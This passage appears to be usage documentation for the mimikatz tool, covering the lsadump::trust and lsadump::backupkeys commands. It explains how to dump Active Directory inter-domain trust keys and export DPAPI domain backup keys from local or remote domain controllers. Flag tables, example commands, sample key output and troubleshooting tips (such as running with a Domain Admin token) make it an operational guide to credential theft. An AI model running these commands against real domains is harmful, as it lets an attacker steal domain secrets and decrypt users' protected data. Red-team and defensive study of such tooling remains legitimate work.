 
### Example usage
* List trust relationships locally:
  ```
  mimikatz # lsadump::trust
  ```
  Example output:
  ```
  * CONTOSO -> FABRIKAM
    Incoming current : 5dc7... (AES256)
    Outgoing current : 8ab1... (AES256)
  ```
* Query a remote domain controller while forcing the patch:
  ```
  mimikatz # lsadump::trust /patch /system:dc01.corp.local
  ```

### Potential errors and troubleshooting
* **`LsaOpenPolicy` access denied** – Your account lacks `SeTcbPrivilege`. Run mimikatz as Domain
  Admin or use a DA token.
* **`RPC_S_SERVER_UNAVAILABLE`** – The remote host is unreachable. Check firewall settings and
  confirm that TCP/445 and TCP/135 are accessible.
* **Empty results** – Trusts may not exist or are restricted. Ensure the account can read trust
  attributes and that the domain actually has external trusts.

## `lsadump::backupkeys`
Fetches domain backup keys (`G$BCKUPKEY_*`) and optionally exports them to files for later DPAPI
operations.

| Flag | Purpose | Why use it |
| --- | --- | --- |
| `/guid:<GUID>` | Retrieve a specific backup key by GUID. | Lets you pull non-preferred keys directly when you already know their identifier. |
| `/system:<hostname>` | Query a remote LSA instance instead of the local machine. | Enables pulling backup keys from another domain controller. |
| `/export` | Write the recovered material to disk in addition to printing it. | Creates `.pfx`, `.der`, or `.key` files that can be reused by DPAPI tooling. |
| `/secret` | Use the `LsaRetrievePrivateData` secret API path. | Necessary when remote policy handles require the secret flag. |

Without `/guid` the command first resolves the preferred and legacy GUIDs before retrieving and analyzing each key, exporting when requested.【F:mimikatz/modules/kuhl_m_lsadump.c†L1945-L2012】

### Example usage
* Retrieve the preferred backup key and export it:
  ```
  mimikatz # lsadump::backupkeys /export
  ```
  Example output:
  ```
  Preferred key GUID : {15d0a512-...}
  * saving to : backupkey_{15d0a512-...}.pfx
  ```
* Pull a legacy key from a remote DC using the secret API path:
  ```
  mimikatz # lsadump::backupkeys /system:dc02.corp.local /guid:{2f17...} /secret
  ```
